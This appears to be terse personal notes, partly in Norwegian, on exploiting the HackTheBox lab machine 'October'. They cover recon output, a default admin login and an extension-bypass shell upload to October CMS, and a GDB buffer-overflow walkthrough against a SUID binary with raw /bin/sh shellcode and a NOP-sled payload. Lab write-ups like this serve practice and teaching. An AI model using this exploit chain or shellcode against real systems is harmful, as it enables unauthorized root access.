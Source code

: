 ## october 10.10.10.16

Linux october 4.4.0-78-generic \#99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 i686 i686 GNU/Linux

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 \(Ubuntu Linux; protocol 2.0\)

80/tcp open  http    Apache httpd 2.4.7 \(\(Ubuntu\)\)

octobercms

**server 2003 sp2 x86**

* Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.21

  Potentially risky methods: PUT PATCH DELETE

[http://10.10.10.16/backend/backend/auth/signin](http://10.10.10.16/backend/backend/auth/signin)

suid enabled binaries / buffer overflows?

/usr/local/bin/ovrflw

Exploiting /usr/local/bin/ovrflw but NX bit is on and ASLR is enabled on the machine

**admin admin er login**

**upload rev shell i media en jpg, rename til php5 for å bypasse.**

/usr/local/bin/ovrflw

disassemble main

break \*0x080484c5

run $\(python -c "print\('A'\*32\)"\)

x/200xb $esp

0xbfcfc180 eller **0x bf cf c1 78**

quit

run $\(python -c "print\('A'\*200\)"\)

run $\(python -c "print\('A'\*112\)"\)

116 = 41 har 112 bytes med minne

med **run $\(python -c "print\('A'\*112+'BBBB'\)"\)**  blir til 42

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

112 - 28 byte shellcode = 84

run $\(python -c "print\('\x90'\*84+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'+'\x78\xc1\xcf\xbf'\)"\)

cat /home/harry/user.txt

**29161ca87aa3d34929dc46efc40c89c0**



https://www.trustwave.com/Resources/SpiderLabs-Blog/Baby-s-first-NX-ASLR-bypass/

